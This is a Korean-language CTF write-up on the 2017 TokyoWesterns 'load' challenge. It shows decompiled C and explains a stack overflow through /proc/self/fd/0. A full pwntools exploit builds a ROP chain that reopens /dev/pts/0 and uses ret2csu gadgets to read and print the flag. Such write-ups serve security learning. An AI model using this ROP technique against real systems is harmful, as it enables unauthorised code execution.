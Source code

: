 ```yaml
---
title: "2017 TokyoWesterns CTF 4th load"
date: 2020-4-27
ctf: TokyoWesterns CTF
layout: post
---
```


* file description
* open("/dev/pts/0", O_RDWR)
* /proc/self/fd/0

```
[*] '/vagrant/ctfs/load'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

main함수에서 전역변수 filename에 입력받고 fileopen함수에서 해당 파일을 열어줍니다. 

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char v4; // [rsp+0h] [rbp-30h]
  __int64 size; // [rsp+20h] [rbp-10h]
  __off_t offset; // [rsp+28h] [rbp-8h]

  setup();
  _printf_chk(1LL, "Load file Service\nInput file name: ");
  input_Str(filename, 128);
  _printf_chk(1LL, "Input offset: ");
  offset = input_Num();
  _printf_chk(1LL, "Input size: ");
  size = input_Num();
  fileopen(&v4, filename, offset, size);
  close_0_1_2();
  return 0LL;
}
```

fileopen을 해주는 함수인데 아까 우리가 전역변수 filename에 준 이름을 열어버린다. 그 fd를 가지고 read를 호출해줍니다.

```c
int __fastcall fileopen(void *a1, const char *a2, __off_t a3, __int64 a4)
{
  size_t nbytes; // [rsp+0h] [rbp-30h]
  __off_t offset; // [rsp+8h] [rbp-28h]
  int fd; // [rsp+2Ch] [rbp-4h]

  offset = a3;
  fd = open(a2, 0, a4);
  if ( fd == -1 )
    return puts("You can't read this file...");
  lseek(fd, offset, 0);
  if ( read(fd, a1, nbytes) > 0 )
    puts("Load file complete!");
  return close(fd);
}
```

stdin, stdout, stderr를 닫아버립니다. 

```c
int close_0_1_2()
{
  close(0);
  close(1);
  return close(2);
}
```

`/proc/self/fd/0` 를 이용해서 stack에 입력받을 수 있다. 그래서 rip control이 가능하다. 근데 close로 0,1,2를 다 닫아버리니까 open으로 stdin, stdout을 복구해서 flag파일을 읽으면 된다. `open("/dev/pts/0", O_RDWR);` 를 2번해주면 된다. 처음에 stdin이 열리고 두번째에 stdout이 열린다. 그리고 flag파일을 여러개 열어주고 rdx가젯이 없어서 csu 가젯으로 대충 어림잡아 fd잡고 bss에 플래그 넣어주고 puts로 출력해주면 된다. 

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./load')
p = process('./load')
prdi = 0x0000000000400a73 # pop rdi ; ret
prsi_r15 = 0x0000000000400a71 # pop rsi ; pop r15 ; ret
name = 0x0000000000601040
csu_pop = 0x0000000000400A6A
csu_call = 0x0000000000400A50

pay = '/proc/self/fd/0\x00'
pay += '/dev/pts/0\x00'
pay += './flag\x00'

p.sendlineafter(':',pay)
p.sendlineafter(':','0')
p.sendlineafter(':','1000')
# pause()

# open('/dev/pts/0',O_RDWR -> 2) 
# open STDIN
pay = 'A'*0x38
pay += p64(prdi)
pay += p64(name+16)
pay += p64(prsi_r15)
pay += p64(2)
pay += p64(0)
pay += p64(e.plt['open'])

# open('/dev/pts/0',O_RDWR -> 2)
# open STDOUT
pay += p64(prdi)
pay += p64(name+16)
pay += p64(prsi_r15)
pay += p64(2)
pay += p64(0)
pay += p64(e.plt['open'])

# open('./flag',O_RDWR)
# open ./flag
for i in range(7):
	pay += p64(prdi)
	pay += p64(name+27)
	pay += p64(prsi_r15)
	pay += p64(2)
	pay += p64(0)
	pay += p64(e.plt['open'])

pay += p64(csu_pop)
pay += p64(0) + p64(1) + p64(e.got['read']) + p64(100) + p64(e.bss() + 0x300) + p64(5) + p64(csu_call)

pay += p64(csu_pop)
pay += p64(0) + p64(1) + p64(e.got['puts']) + p64(0) + p64(0) + p64(e.bss() + 0x300) + p64(csu_call)

p.sendline(pay)

p.interactive()
```

